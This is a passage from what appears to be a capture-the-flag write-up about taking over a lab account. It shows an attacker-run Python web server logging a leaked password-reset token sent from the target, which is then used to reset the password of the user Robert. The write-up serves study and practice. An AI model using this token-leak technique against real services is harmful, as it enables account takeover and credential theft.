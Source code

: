 I'll have a Python webserver listening to see what traffic comes back,
and after a minute, there's a request:



    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.188 - - [21/Feb/2023 07:11:01] code 404, message File not found
    10.10.11.188 - - [21/Feb/2023 07:11:01] "GET /reset?token=lQ3%2FPfcop1Ydljq4%2FfVIQZ5xwBApktCviX0ntS7kBzBLn8teNQslJ9ZTkH3EixTEajvXes7ccIAEHJFp%2FGquYA%3D%3D HTTP/1.1" 404 -



Now visiting that link and updating the password works:

![](/img/image-20230221071253503.png)

And I'm able to log in as Robert:
